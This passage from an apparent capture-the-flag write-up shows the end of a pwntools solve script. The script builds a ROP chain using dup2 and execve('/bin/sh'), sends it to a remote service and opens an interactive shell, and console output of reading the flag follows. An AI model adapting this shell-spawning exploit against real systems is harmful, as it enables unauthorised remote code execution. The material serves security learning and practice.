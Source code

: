 ```py
payload += p64(dup2)
payload += p64(pop_rsi)             # Set rsi to 1 (stdout)
payload += p64(1)
payload += p64(syscall)             # Trigger the syscall

# execve("/bin/sh\0", 0, 0) - Execute the shell
payload += p64(push_rbp_mov_rbp_rsp_pop_rax) # Set the value of rbp with the address of /bin/sh
payload += p64(pop_rdi_xor_rdi_rbp)          # Move the address in rbp to rdi (first argument to execve)
payload += p64(0)                            # Set rdi to 0 for xor with rbp
payload += p64(pop_rax)                      # Set rax to 59 (sys_execve syscall number)
payload += p64(execve)  
payload += p64(pop_rsi)                      # Set rsi to 0 (second argument to execve)
payload += p64(0)
payload += p64(pop_rdx_pop_r12)              # Set rdx to 0 (third argument to execve, also sets r12 to 0)
payload += p64(0)
payload += p64(0)
payload += p64(syscall)                      # Trigger the syscall

payload += b" \n"

r2 = remote(remote_addr, 5555)
r2.sendline(payload)
r2.sendline(b"")
r2.interactive("$ ")
```
{: file="solve.py" }

As we can see, running the script, we are able to get a shell and read the flag.

```console
$ python3 solve.py
$ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ wc -c flag.txt
39 flag.txt
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>
